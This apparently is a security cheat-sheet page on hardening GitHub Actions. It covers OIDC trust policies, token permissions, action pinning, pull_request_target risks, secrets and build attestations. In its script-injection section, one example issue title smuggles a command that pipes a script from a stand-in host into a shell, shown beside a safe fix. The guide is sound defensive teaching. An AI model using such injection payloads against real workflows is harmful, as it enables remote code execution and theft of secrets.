


import { TLDR, DocsLinks, LastVerified, DecisionTree, FlashCards } from '@components';
import { Aside, Badge, Tabs, TabItem } from '@astrojs/starlight/components';

<LastVerified date="2026-10" />

<TLDR>
- **No long-lived cloud keys.** Use **OIDC** (`id-token: write`) and scope the cloud trust policy to the `sub` claim (repo + environment or ref).
- **Least privilege.** Set `permissions:` in every workflow, with a read-only default for the org. Block `pull_request_target` unless you really need it. Public repos get a **default block policy that is enforced from Nov 2, 2026**.
- **Lock what you run.** Pin actions to a full commit SHA, which an org policy can **require**, or adopt **workflow dependency lockfiles** <Badge text="Preview" variant="caution" />. Let Dependabot keep them updated.
- **Never interpolate untrusted input into `run:`.** Pass it through `env:` instead. **CodeQL now scans workflow files** and catches this.
- **Prove what you built.** `actions/attest@v4` produces SLSA build provenance, and consumers check it with `gh attestation verify`.
</TLDR>

## Common booth questions

<details>
<summary>How do we stop storing AWS/Azure/GCP keys as secrets?</summary>

Use **OpenID Connect**. The job requests a short-lived JWT from GitHub (`permissions: id-token: write`), and the cloud provider exchanges it for short-lived credentials. The cloud-side trust policy should match the **`sub` claim**, for example `repo:octo-org/octo-repo:environment:Production`, so that only that repo *and* that environment can assume the role. Official login actions handle the exchange: `aws-actions/configure-aws-credentials`, `azure/login` and `google-github-actions/auth`.

</details>

<details>
<summary>Can we restrict OIDC to a central "golden" deploy workflow?</summary>

Yes. Use the REST API to customize the **subject claim template** so that `sub` includes `job_workflow_ref`. Then trust only, for example, `...:job_workflow_ref:octo-org/platform/.github/workflows/deploy.yml@refs/heads/main`. With this setup, only that reusable workflow can get cloud credentials, regardless of which repo calls it. Org and enterprise admins can also add **repository custom properties** to the token as `repo_property_*` claims, which enables ABAC-style trust policies. For example, you can allow a role only when `repo_property_data_classification` is `"public"`.

</details>

<details>
<summary>What changed with OIDC subjects in 2026?</summary>

Repositories created **after July 15, 2026** use an **immutable `sub` format** that embeds owner and repo IDs, for example `repo:octo-org@123456/octo-repo@456789:ref:refs/heads/main`. This defeats "namespace recycling," where someone recreates a deleted org or repo name to inherit your cloud trust. Older repos keep the old format until they opt in at the org or repo level. Renames and transfers after that date also switch to the new format. This change **does not apply to GHES**. Update your cloud trust policies before you opt in.

</details>

<details>
<summary>Is pinning to `@v4` good enough?</summary>

Only if you fully trust the publisher, because tags can be moved. Prefer one of these:
1. A **full-length commit SHA**, with org or repo policy **"Require actions to be pinned to a full-length commit SHA"** turned on. That policy also covers GitHub-authored actions. Reusable workflows are exempt.
2. **Workflow dependency lockfiles** <Badge text="Preview" variant="caution" />. `gh actions-lock` writes `.github/workflows/actions.lock`, which pins every action *including transitive dependencies* to a commit plus the owner and repo ID. GitHub says SHA pinning in workflow files is then no longer necessary, and locked dependencies also satisfy the SHA-pinning policy.

Dependabot (`package-ecosystem: github-actions`) keeps pinned SHAs and lockfiles up to date.

</details>

<details>
<summary>Is `pull_request_target` dangerous?</summary>

On its own, no. It runs the **base branch's** workflow with secrets and a read/write token. The danger, known as a **"pwn request,"** comes from checking out the PR head (`ref: github.event.pull_request.head.sha`) and then *executing* it (`npm install`, `make test` and so on). GitHub now adds a **default Actions event policy that blocks `pull_request_target` in public repos**. It currently runs in *evaluate* mode and will be **enforced on November 2, 2026**; check the policy insights before then. `actions/checkout` also refuses to check out fork PR heads under this event unless you set `allow-unsafe-pr-checkout: true`. In most cases, use `pull_request`, or split the work into `pull_request` and `workflow_run`.

</details>

<details>
<summary>Do fork PRs get our secrets?</summary>

No. For `pull_request` runs from forks, GitHub passes **no secrets** (other than `GITHUB_TOKEN`) and the token is **read-only**. First-time contributors also need approval before workflows run. That isolation is why `pull_request` is the safe default for untrusted code.

</details>

<details>
<summary>Can someone poison our cache from a PR?</summary>

GitHub mitigates this by default. Low-trust triggers (`pull_request_target`, `issue_comment`, `workflow_run` and others) get **read-only** access to default-branch caches. Only trusted triggers such as `push`, `schedule` and `workflow_dispatch` can write them. The new `cache-mode` key (`read` / `write` / `write-only` / `none`) can tighten access further, or deliberately loosen it, which is risky. Never put secrets in cached paths.

</details>

<details>
<summary>Are self-hosted runners OK for public repos?</summary>

Almost never. Anyone can open a PR and run code on a non-ephemeral machine, so the machine can be persistently compromised. For private repos, use **ephemeral JIT runners** or ARC, put sensitive workloads in separate **runner groups**, and keep cloud metadata endpoints and credentials off the host.

</details>

## OIDC: how the token exchange works



### Subject (`sub`) claim cheat sheet

| Scenario | `sub` value |
| --- | --- |
| Job uses an environment | `repo:ORG/REPO:environment:Production` |
| Branch | `repo:ORG/REPO:ref:refs/heads/main` |
| Tag | `repo:ORG/REPO:ref:refs/tags/v1.2.0` |
| `pull_request` event | `repo:ORG/REPO:pull_request` |
| Immutable format (new repos after 2026-07-15) | `repo:ORG@OWNER_ID/REPO@REPO_ID:ref:refs/heads/main` |
| Custom template with `job_workflow_ref` | `repo:ORG/REPO:environment:prod:job_workflow_ref:ORG/platform/.github/workflows/deploy.yml@refs/heads/main` |

<Aside type="caution" title="Gotcha">
If a job references an `environment`, the `sub` uses the **environment** form, *not* the `ref` form. A trust policy that only allows `ref:refs/heads/main` will then reject the token. A `:` inside a value is encoded as `%3A`.
</Aside>

<Tabs>
<TabItem label="AWS">

```json
"Condition": {
  "StringEquals": {
    "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
    "token.actions.githubusercontent.com:sub": "repo:octo-org/octo-repo:environment:Production"
  }
}
```

</TabItem>
<TabItem label="Azure">

Federated credential on an Entra app or user-assigned managed identity:
- Issuer: `https://token.actions.githubusercontent.com`
- Subject: `repo:octo-org/octo-repo:environment:Production`
- Audience: `api://AzureADTokenExchange` (the `azure/login` default)

</TabItem>
<TabItem label="GCP">

Workload Identity Federation provider attribute condition:

```text
assertion.sub == 'repo:octo-org/octo-repo:ref:refs/heads/main'
```

</TabItem>
</Tabs>

```yaml
# Workflow side
permissions:
  id-token: write   # request the OIDC JWT
  contents: read    # actions/checkout
jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: Production
    steps:
      - uses: aws-actions/configure-aws-credentials@<full-sha>
        with:
          role-to-assume: arn:aws:iam::123456789012:role/gha-deploy
          aws-region: us-east-1
```

**Custom claims**: GitHub provides a fixed set of extra claims (`actor`, `environment`, `job_workflow_ref`, `repository_visibility`, `run_id` and others). You **cannot invent arbitrary claims**. You *can* (a) customize which claims make up `sub` with an org or repo **subject template**, and (b) include **repository custom properties** as `repo_property_<name>` claims. For reusable workflows from *outside* your org or enterprise, the caller must grant `id-token: write` explicitly.

## GITHUB_TOKEN least privilege

- In org settings → Actions → Workflow permissions, set the default to **read** for `contents` and `packages` (the "restricted" setting). Repos cannot be more permissive than the org.
- Declare `permissions:` at the workflow level as `contents: read`, and elevate per job only where needed. Any scope you don't list becomes `none`.
- Leave "Allow GitHub Actions to create and approve pull requests" **off** unless you need it.

```yaml
permissions:
  contents: read
jobs:
  release:
    permissions:
      contents: write        # create the release
      id-token: write        # OIDC + attestations
      attestations: write
```

## Supply chain: pinning, policy, Dependabot

| Control | What it does | Where |
| --- | --- | --- |
| **Allowed actions policy** | Allow only enterprise/org actions, GitHub-authored or Marketplace-verified actions, or an explicit allowlist (`org/*`, `!org/bad@*`) | Enterprise, org or repo → Actions → General |
| **Require full-length SHA pinning** | Rejects `@v4` or `@main` refs for actions. Reusable workflows are exempt | Same page, under "Allow select actions" |
| **Workflow dependency lockfiles** <Badge text="Preview" variant="caution" /> | `actions.lock` pins every action, including transitive ones, to a commit plus owner and repo IDs | `gh actions-lock` |
| **Dependabot version updates** | Opens PRs that bump pinned SHAs or tags | `.github/dependabot.yml`, `package-ecosystem: github-actions` |
| **Immutable releases** | Publishers lock release tags and assets, with an auto-generated release attestation | Action's repo settings |
| **Actions event policies** | Allowlist which **events** and **actors** may trigger workflows | Settings → Actions → **Policies** |

<Aside type="note">
"Immutable actions" as a separate Marketplace feature **could not be verified** (2026-10). What shipped (GA) is **immutable releases**, which action publishers can turn on so that release tags can't be repointed. Verify before you quote the term "immutable actions."
</Aside>

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: github-actions
    directory: /
    schedule:
      interval: weekly
    groups:
      actions:
        patterns: ["*"]
```

## Pwn requests: `pull_request_target` and `workflow_run`



**Safe patterns**
- **Default to `pull_request`.** Only use `pull_request_target` for jobs that never run PR code, such as labeling, triage and comments.
- If you need secrets plus PR results, do the untrusted work in `pull_request`, then use **`workflow_run`** for the privileged part. **Treat downloaded artifacts as untrusted data**: parse them, never execute them.
- Never set `allow-unsafe-pr-checkout: true` unless the checked-out code is only read as data.
- Use **environments with required reviewers** for anything that deploys.
- Keep the new default block on `pull_request_target`, or set an explicit **Actions event policy** if you truly need it.

## Script injection

Any `${{ }}` expression inside `run:` is pasted into the shell script **before** it runs. Attacker-controlled fields include `github.event.issue.title`, `github.event.pull_request.body`, `github.head_ref`, comment bodies, commit messages and author emails.

```yaml
# ❌ Vulnerable: an issue titled  a"; curl evil.sh | sh; echo "  runs as code
- run: echo "Title: ${{ github.event.issue.title }}"

# ✅ Safe: pass through an environment variable and quote it
- env:
    TITLE: ${{ github.event.issue.title }}
  run: echo "Title: $TITLE"
```

Better still, use an action that takes the value as an input. **CodeQL supports GitHub Actions workflows** as a language, and default setup flags injection and dangerous `pull_request_target` checkouts. OpenSSF Scorecard's *Dangerous-Workflow* check is a complement.

## Secrets

| Level | Scope | Notes |
| --- | --- | --- |
| Organization | Selected repos or all repos | Central management. Visibility can be restricted per repo |
| Repository | All workflows in the repo | Available to anyone who can push a workflow |
| Environment | Jobs that reference the environment | Gated by **required reviewers**, wait timers and branch rules. Best for production credentials |

- GitHub **masks** registered secret values in logs. For derived or dynamic values, use `::add-mask::`. Structured blobs such as JSON may not be masked reliably, so store individual values.
- Secrets aren't passed to fork `pull_request` runs, and Dependabot-triggered runs use **Dependabot secrets**.
- Reusable workflows need `secrets: inherit` or explicit pass-through.
- Audit changes with events such as `org.update_actions_secret`.

## Artifact attestations (SLSA build provenance)

```yaml
permissions:
  id-token: write
  contents: read
  attestations: write
steps:
  - run: make dist
  - uses: actions/attest@v4
    with:
      subject-path: dist/my-app
```

```bash
# Consumer side
gh attestation verify dist/my-app -R octo-org/octo-repo
gh attestation verify oci://ghcr.io/octo-org/app:1.0 -R octo-org/octo-repo
```

- Attestations use **Sigstore**: the public-good instance plus a transparency log for public repos, and GitHub's private instance for private repos.
- By default they give **SLSA v1.0 Build Level 2**. Building in a shared **reusable workflow** gets you to **Build Level 3**.
- Supported subjects are binaries, container images and **SBOM attestations**.
- Sign releases, not every test build. Attestations are only useful if someone **verifies** them, for example in the deploy gate or at Kubernetes admission.

## Self-hosted runner risk

- Never attach self-hosted runners to **public** repos.
- Prefer **ephemeral / JIT** runners (one job each) or ARC scale sets.
- Isolate them with **runner groups** restricted to specific repos or workflows.
- Restrict network egress and keep secrets off the host.

## Decision: is this trigger safe for untrusted PRs?

<DecisionTree
  title="Is this workflow trigger safe for untrusted (fork) PRs?"
  tree={{
    start: 'q1',
    nodes: {
      q1: {
        question: 'Which trigger does the workflow use?',
        options: [
          { label: 'pull_request', next: 'pr' },
          { label: 'pull_request_target', next: 'q2' },
          { label: 'workflow_run', next: 'q4' },
          { label: 'issue_comment', next: 'q3' },
        ],
      },
      pr: {
        answer: '✅ **Generally safe.** Fork code runs with a **read-only** `GITHUB_TOKEN` and **no secrets**, and first-time contributors need approval. Still avoid self-hosted runners on public repos.',
        links: [{ label: 'Events that trigger workflows', href: 'https://docs.github.com/en/actions/reference/workflows-and-actions/events-that-trigger-workflows#pull_request' }],
      },
      q2: {
        question: 'Does any step **check out or download** the PR head code (checkout `ref:` head, `git fetch`, `gh pr checkout`, artifacts)?',
        options: [
          { label: 'Yes', next: 'q2b' },
          { label: 'No', next: 'q3' },
        ],
      },
      q2b: {
        question: 'Is that code ever **executed**? This includes builds, installs, tests and config files read by tools.',
        options: [
          { label: 'Yes / not sure', next: 'pwn' },
          { label: 'No, only read as data', next: 'prtdata' },
        ],
      },
      pwn: {
        answer: '🚨 **Pwn request.** Attacker code runs with your secrets and a write token. Switch to `pull_request`, or split into `pull_request` + `workflow_run`.',
        links: [{ label: 'Securely using pull_request_target', href: 'https://docs.github.com/en/actions/reference/security/securely-using-pull_request_target' }],
      },
      prtdata: {
        answer: '⚠️ **Acceptable with care.** You need `allow-unsafe-pr-checkout: true`, an explicit event policy that allows `pull_request_target` (the default policy blocks it in public repos from Nov 2, 2026), least-privilege `permissions`, and no `run:` interpolation of PR fields.',
      },
      q3: {
        question: 'Do any `run:` steps interpolate event fields such as `${{ github.event.*.title/body }}` or `github.head_ref`?',
        options: [
          { label: 'Yes', next: 'inject' },
          { label: 'No', next: 'okish' },
        ],
      },
      inject: {
        answer: '🚨 **Script injection risk.** Move the values into `env:` and reference them as `"$VAR"`. Enable **CodeQL for GitHub Actions** to catch these.',
        links: [{ label: 'Secure use reference', href: 'https://docs.github.com/en/actions/reference/security/secure-use' }],
      },
      okish: {
        answer: '✅ **Likely OK**, as long as permissions are minimal, secrets are scoped to the job that needs them, and the cache is read-only (the default for low-trust triggers).',
      },
      q4: {
        question: 'Does it download artifacts from the triggering run and **execute** or `eval` them, or use them in shell commands unquoted?',
        options: [
          { label: 'Yes', next: 'pwn' },
          { label: 'No, parsed as data only', next: 'q3' },
        ],
      },
    },
  }}
/>

## Security gotchas

<FlashCards
  title="Security gotchas"
  cards={[
    { q: 'Does a commit pushed with `GITHUB_TOKEN` trigger another workflow?', a: 'No, to prevent recursion. The exceptions are `workflow_dispatch` and `repository_dispatch`. Use a **GitHub App token** if you need chaining.' },
    { q: 'Why does an OIDC role fail only for jobs that use `environment:`?', a: 'With an environment, `sub` becomes `repo:ORG/REPO:environment:NAME`, so a trust policy written for `ref:refs/heads/main` will not match.' },
    { q: 'Is `@v4` an immutable reference?', a: 'No. Tags can be moved. Use a full SHA, which an org policy can require, or a workflow dependency **lockfile** (preview).' },
    { q: 'Does the SHA-pinning policy apply to reusable workflows?', a: 'No. Reusable workflows can still be referenced by tag. The policy covers actions, including GitHub-authored ones.' },
    { q: 'What is the safe way to use an issue title in a script?', a: 'Map it to `env:` (`TITLE: ${{ github.event.issue.title }}`) and use `"$TITLE"` in the shell.' },
    { q: 'Can a `pull_request_target` run write to the default-branch cache?', a: 'Not by default. Low-trust triggers are **read-only**, unless a job opts in with `cache-mode: write`, which is risky.' },
    { q: 'What happens on Nov 2, 2026?', a: 'The default Actions event policy that **blocks `pull_request_target` in public repos** moves from evaluate to **enforce**, for repos still on the default.' },
    { q: 'What SLSA level do artifact attestations give you?', a: '**Build L2** by default, and **Build L3** when the build runs in a shared reusable workflow.' },
  ]}
/>

<DocsLinks links={[
  { label: 'Secure use reference', href: 'https://docs.github.com/en/actions/reference/security/secure-use', description: 'Script injection, third-party actions, self-hosted runner hardening' },
  { label: 'Securely using pull_request_target', href: 'https://docs.github.com/en/actions/reference/security/securely-using-pull_request_target' },
  { label: 'About Actions policies', href: 'https://docs.github.com/en/actions/concepts/about-actions-policies', description: 'Workflow execution protections (event and actor rules)' },
  { label: 'OpenID Connect reference', href: 'https://docs.github.com/en/actions/reference/security/oidc', description: 'Claims, subject templates, custom properties, immutable subjects' },
  { label: 'Workflow dependency lockfiles', href: 'https://docs.github.com/en/actions/concepts/security/workflow-dependency-lockfiles' },
  { label: 'Managing GitHub Actions settings for a repository', href: 'https://docs.github.com/en/repositories/managing-your-repositorys-settings-and-features/enabling-features-for-your-repository/managing-github-actions-settings-for-a-repository', description: 'Allowed actions, SHA pinning, GITHUB_TOKEN defaults' },
  { label: 'Artifact attestations', href: 'https://docs.github.com/en/actions/concepts/security/artifact-attestations' },
  { label: 'Dependency caching reference (cache-mode)', href: 'https://docs.github.com/en/actions/reference/workflows-and-actions/dependency-caching' },
  { label: 'Immutable releases', href: 'https://docs.github.com/en/code-security/concepts/supply-chain-security/immutable-releases' },
]} />
